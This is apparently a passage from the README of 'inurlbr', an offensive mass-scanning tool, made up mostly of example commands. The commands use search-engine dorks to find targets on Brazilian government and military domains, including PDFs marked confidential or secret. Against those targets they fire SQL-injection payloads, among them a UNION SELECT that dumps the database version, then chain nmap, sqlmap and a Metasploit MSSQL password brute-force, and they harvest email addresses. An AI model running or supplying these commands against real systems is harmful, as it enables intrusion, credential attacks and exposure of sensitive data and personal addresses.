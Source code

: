 command examples:
```properties
inurlbr --info
```

## Setting your token ipinfo
It is possible to register more than one token
```bash
./resources/token.ipinfo.inurl
```
## Setting your strings
You can register more validation strings
```bash
./resources/strings.validation.inurl
```

## Setting your filter strings
You can register more filter values that dirty your results
```bash
./resources/trash_list.validation.inurl
```


## Commands
```properties
inurlbr --dork 'site:sp.gov.br' --save-as '/tmp/sp.gov.br.txt' -q 1 -u

inurlbr --dork 'inurl:php?id=' -s save.txt -q 1,6 -t 1 --exploit-get "?´'%270x27;"  
   
inurlbr --dork 'inurl:aspx?id=' -s save.txt -q 1,6 -t 1 --exploit-get "?´'%270x27;" 
   
inurlbr --dork 'site:br inurl:aspx (id|new)' -s save.txt -q 1,6 -t 1 --exploit-get "?´'%270x27;"
   
inurlbr --dork 'index of wp-content/uploads' -s save.txt -q 1,6,2,4 -t 2 --exploit-get '?' -a 'Index of /wp-content/uploads'
   
inurlbr --dork 'site:.mil.br intext:(confidencial) ext:pdf' -s save.txt -q 1,6 -t 2 --exploit-get '?' -a 'confidencial'
   
inurlbr --dork 'site:.mil.br intext:(secreto) ext:pdf' -s save.txt -q 1,6 -t 2 --exploit-get '?' -a 'secreto'        
  
inurlbr --dork 'site:br inurl:aspx (id|new)' -s save.txt -q 1,6 -t 1 --exploit-get "?´'%270x27;"
   
inurlbr --dork '.new.php?new id' -s save.txt -q 1,6,7,2,3 -t 1 --exploit-get '+UNION+ALL+SELECT+1,concat(0x3A3A4558504C4F49542D5355434553533A3A,@@version),3,4,5;' -a '::EXPLOIT-SUCESS::'
  
inurlbr --dork 'new.php?id=' -s teste.txt  --exploit-get ?´0x27  --command-vul 'nmap sV -p 22,80,21 _TARGET_'
   
inurlbr --dork 'site:pt inurl:aspx (id|q)' -s bruteforce.txt --exploit-get ?´0x27 --command-vul 'msfcli auxiliary/scanner/mssql/mssql_login RHOST=_TARGETIP_ MSSQL_USER=inurlbr MSSQL_PASS_FILE=/home/pedr0/Documentos/passwords E'
  
inurlbr --dork 'site:br inurl:id & inurl:php' -s get.txt --exploit-get "?´'%270x27;" --command-vul 'python ../sqlmap/sqlmap.py -u "_TARGETFULL_" --dbs'
  
inurlbr --dork 'inurl:index.php?id=' -q 1,2,10 --exploit-get "'?´0x27'" -s report.txt --command-vul 'nmap -Pn -p 1-8080 --script http-enum --open _TARGET_'
 
inurlbr --dork 'site:.gov.br email' -s reg.txt -q 1  --regexp '([\w\d\.\-\_]+)@([\w\d\.\_\-]+)'
  
inurlbr --dork 'site:.gov.br email (gmail|yahoo|hotmail) ext:txt' -s emails.txt -m
```